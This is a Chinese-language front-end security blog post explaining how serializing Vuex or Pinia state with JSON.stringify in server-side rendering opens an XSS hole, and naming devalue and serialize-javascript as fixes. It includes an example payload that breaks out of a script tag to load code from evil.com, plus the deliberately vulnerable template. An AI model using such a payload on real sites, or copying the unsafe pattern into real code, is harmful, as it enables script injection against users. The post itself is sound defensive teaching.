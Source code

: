 ```yaml
---
title: 前端安全之XSS攻击的各种手段
tags:
  - 前端安全
categories:
  - 前端
  - 浏览器
date: 2023-02-06 11:30:47
---
```


# 在 SSR 场景下使用 Vuex 以及 Pinia 初始化状态存在的 XSS 风险

在 SSR 应用中，服务器预取数后，会将预取的数据暴露到全局对象中，以提供给 Vuex 或者是 Pinia 进行初始化调用。

此时，如果服务端预取的数据包含 XSS 攻击内容，则客户端将很容易收到攻击，比如在 SSR 服务中对返回给客户端的 HTML 拼接如下内容：

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

在客户端获取的 HTML 中将会包含：

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"</script><script src='https://evil.com/mwahaha.js'>"};
</script>
```

这样就成功的向客户端加载了 `https://evil.com/mwahaha.js` 的内容。

为了避免此类情况的发生，可以使用 [@nuxt/devalue](https://github.com/nuxt-contrib/devalue) 或者 [serialize-javascript](https://www.npmjs.com/package/serialize-javascript) 解决。

